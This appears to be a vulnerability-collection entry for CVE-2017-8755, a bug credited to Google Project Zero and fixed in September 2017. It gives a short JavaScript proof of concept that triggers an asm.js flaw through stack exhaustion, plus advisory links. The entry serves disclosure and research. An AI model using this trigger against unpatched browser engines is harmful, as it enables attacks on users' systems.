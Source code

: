 # CVE-2017-8755

- Fix: Sep 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function Module() {
    'use asm';

    function f() {
    }

    return f;
}

function recur() {
    try {
        recur();
    } catch (e) {
        Module(1);
    }
}

recur();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-8755)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1327)
